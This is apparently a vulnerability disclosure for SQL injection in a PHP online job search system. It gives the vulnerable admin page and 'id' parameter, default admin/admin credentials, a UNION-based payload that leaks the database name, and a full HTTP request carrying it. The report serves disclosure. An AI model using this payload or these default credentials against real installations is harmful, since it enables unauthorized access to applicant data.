 # Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝歌

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/applicants/index.php?view=view&id=

Vulnerability location: /eris/admin/applicants/index.php?view=view&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ // Leak place ---> id

```sql
GET /eris/admin/applicants/index.php?view=view&id=-2%27%20union%20select%201,2,3,4,5,6,database(),8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849174-963d07c5-d498-446e-b8e5-b834c6c1c4f4.png)


![image](https://user-images.githubusercontent.com/54017627/170849170-e85f655d-3180-4a60-abac-0f26005b0093.png)
